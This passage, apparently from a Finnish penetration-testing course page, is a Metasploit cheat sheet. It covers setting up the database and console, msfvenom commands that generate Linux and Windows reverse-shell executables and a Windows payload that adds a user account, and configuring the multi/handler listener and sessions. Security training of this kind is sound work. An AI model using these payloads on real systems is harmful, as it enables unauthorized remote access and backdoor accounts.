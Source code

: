 2. **Metasploit-tietokannan alustaminen ja käynnistäminen**:
   ```bash
   sudo msfdb init
   sudo msfdb start
   ```

3. **Metasploit-konsolin käynnistäminen**:
   ```bash
   sudo msfconsole
   ```

**Payloadien ja koodereiden hallinta**
- **Listaa kaikki saatavilla olevat payloadit**:
  ```bash
  msfvenom -l payloads
  ```

- **Listaa kaikki käytettävissä olevat kooderit**:
  ```bash
  msfvenom -l encoders
  ```

**Payloadien luominen ja käyttäminen**
- **Linuxin Reverse ja Bind Shell -payloadit**:
  ```bash
  msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP-osoite> LPORT=<Portti> -f elf > reverse.elf
  msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP-osoite> LPORT=<Portti> -f elf > shell.elf
  ```

- **Windowsin Reverse Shell, Bind Shell ja Käyttäjän luonti -payloadit**:
  ```bash
  msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP-osoite> LPORT=<Portti> -f exe > reverse.exe
  msfvenom -p windows/adduser USER=hakkeri PASS=salasana -f exe > adduser.exe
  ```

**Hyödyllisiä msfconsole-komentoja**
- **Payloadin asetukset ja ajon aloittaminen**:
  ```bash
  msf6 > use exploit/multi/handler
  msf6 exploit(multi/handler) > set payload linux/x86/meterpreter_reverse_tcp
  msf6 exploit(multi/handler) > set LHOST <oma-ip>
  msf6 exploit(multi/handler) > set LPORT <oma-portti>
  msf6 exploit(multi/handler) > set ExitOnSession false
  msf6 exploit(multi/handler) > run -j
  ```

- **Session hallinta ja työkalujen tarkastelu**:
  ```bash
  msf6 > sessions -l
  msf6 > sessions -i <session_id>
  msf6 > show exploits
  msf6 > show payloads
  ```


### b) Review
